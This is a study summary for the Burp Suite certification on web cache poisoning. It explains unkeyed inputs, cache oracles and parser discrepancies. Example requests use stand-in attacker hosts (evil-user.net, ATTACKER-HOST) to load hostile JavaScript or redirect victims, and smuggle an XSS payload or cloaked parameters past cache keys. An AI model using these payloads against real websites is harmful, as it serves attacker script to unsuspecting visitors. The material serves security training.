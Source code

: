 ##### PortSwigger BurpSuite Certification Summary
# Web Cache Poisoning
Cache poisoning is when an attacker is able to inject a malicious version of a website into the cache. If users then access that websites and get served by the cached version, the exploit is executed. One significant factor is the data that is considered when deciding if a website is cached or should be served by the backend. This usually does not include the full set of parameters on a website. Left out inputs are called *unkeyed* and identifying those is the first step in constructing an atttack.

## Exploiting Design Flaws

### Identify Unkeyed Inputs
The whole idea is to inject a payload into a unkeyed input so that it will be served by the backend-server and cached. The extension *Param Miner* sends multiple requests and notifies if there is an unkeyed input found. This can be seen in the issues in Burp.
### Elicit a Harmful Response
Once an unkeyed input is found, the goal is to understand how it can be used malicously. This being done, this response must then be cached. This can be tricky and require trying out different versions and seeing what happens to them.

One can see if the response has been served by the cache by the header
```
X-Cache: hit
```

### Delivering the Exploit
There are multiple ways:
* Unsafe handling of resource imports
	```
	GET / HTTP/1.1
	Host: innocent-website.com
	X-Forwarded-Host: evil-user.net
	User-Agent: Mozilla/5.0 Firefox/57.0
	
	HTTP/1.1 200 OK
	<script src="https://evil-user.net/static/analytics.js"></script>
	```
	The attacker can then host the loaded JS file themselves and give their domain to load it from.
* Though rare, as the users will see the impact in bad usability, cookies can be used. The context is crucial here, e.g. the cookie value could be used within a script and classic escaping techniques must be used.
* Sometimes multiple headers need to be used:
	```
	X-Forwarded-Host: ATTACKER-HOST
	X-Forwarded-Scheme: ggez
	```
	In this case, the forwarded scheme must not be HTTPS and by adding the forwarded host, the victim will be redirected to the attacker host.

The `Vary` header can make certain inputs be keyed in order to distinguish for example different user agents. This can be used to direct the attack to certain users.

#### Headers
```
X-Host
X-Forwarded-Host
X-Forwarded-Scheme

```

## Cache Implementation Flaws
They offer a greater attack surface and can reach even caches on an application level. The concept relies on the fact that inputs are often transformed in some way before being used in the cache key.

### Identifying a Cache Oracle
This happens on a page that provides feedback on the caches behaviour. Some aspects to consider are:
* Does it come from the cache or the backend-server?
	* In the HTTP header
	* Changes to dynamic content
	* Response times
* The URL and query parameters are optimally reflected on the page
* Is a third-party cache in use? Check the documentation

### Probe the Key Handling
The next step is to evaluate how the keys are handled. If some part of the input is discarded, such as the port of a host, it means that this could be a way of injecting a payload.

Example:
The query parameters are not keyed and reflected within the response. The payload can therefore be injected with the URL and the site with it will be cached. Since the parameters do not influence the caching, a user who enters the normal website (i.e. without any parameters) will still be served with the malicious version in the cache.7

Example:
Some query parameters are not considered. One such candidate is the `utm_content` parameter.

Example:
The cache exludes some harmless parameter, thus it can't be directly used. Any useful parameter is keyed.

Most logic considers only the first questionmark and then looks for the ampersand in the parameters. Some poorly written parsing algorithms will treat any ? as the start of a new parameter, regardless of whether it's the first one or not.

Let's assume that the algorithm for excluding parameters from the cache key behaves in this way, but the server's algorithm only accepts the first ? as a delimiter. The attack would then look like this:
```
GET /?example=gg?harmless_parameter=<script>alert(1)</script>
```

Example:
The opposite of the above example is the case.
Ruby on Rails will consider the semicolon as a delimiter as well as the ampersand, however most caches do not. This offers the following method of injecting a payload into a useful, keyed parameter:
```
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```
While the cache will interpret this as two parameters and discard everything after the first keyed parameter, the server won't do this and interpret it as three separate parameters. If the final occurrence of a parameter is considered, the attack works.

Example:
The server might choose a parameter served in the body over the one in the URL. The cache does not consider the parameter in the body keyed, so the attack looks something like this:
```
GET /?param=innocent HTTP/1.1
Host: innocent-website.com
X-HTTP-Method-Override: POST
…
param=bad-stuff-here
```
The override can help in that the server considers the body's parameter.

Example:
The cache normalizes the keyed input and thus decodes the from the server URL encoded string, making it executable. Therefore, a reflected XSS attack can be enabled, even though URL ecnoding takes place.

